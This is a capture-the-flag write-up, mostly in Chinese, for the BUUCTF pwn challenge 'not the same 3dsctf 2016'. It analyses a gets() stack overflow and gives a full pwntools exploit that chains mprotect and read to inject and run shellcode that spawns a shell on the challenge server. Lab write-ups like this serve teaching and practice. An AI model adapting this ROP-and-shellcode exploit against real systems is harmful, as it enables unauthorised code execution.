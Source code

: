 ```yaml
---
author: 
  name: Zephyr
title: not the same 3dsctf 2016
date: 2022-3-22 13:21:03
permalink: /pages/2e1547494524d189
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# not the same 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+Fh] [ebp-2Dh]

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(&v4);
  return 0;
}
```

部分函数表如下

![not_the_same_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/not_the_same_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - `main`函数内明显的栈溢出漏洞
   - 函数表内有`mprotect`函数
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有`mprotect`函数，考虑劫持程序流到`mprotect`函数处给一段地址区域添加读写及执行权限，将`shellcode`写入该处，二次返回该处执行获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
# 使用read向内存中写入shellcode
padding = 45
mem_addr = 0x080EB000
mem_len = 0x1000
mem_type = 7
pop_3times_ret = 0x0806FCC8
# pop 3次将上个函数的3个参数弹出，调整栈布局
shellcode = asm(shellcraft.sh())
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, mem_addr, mem_len,mem_type, read_addr, pop_3times_ret, 0, mem_addr, 0x100, mem_addr])
io.sendline(payload)
io.sendline(shellcode)
# 发送shellcode
io.interactive()
```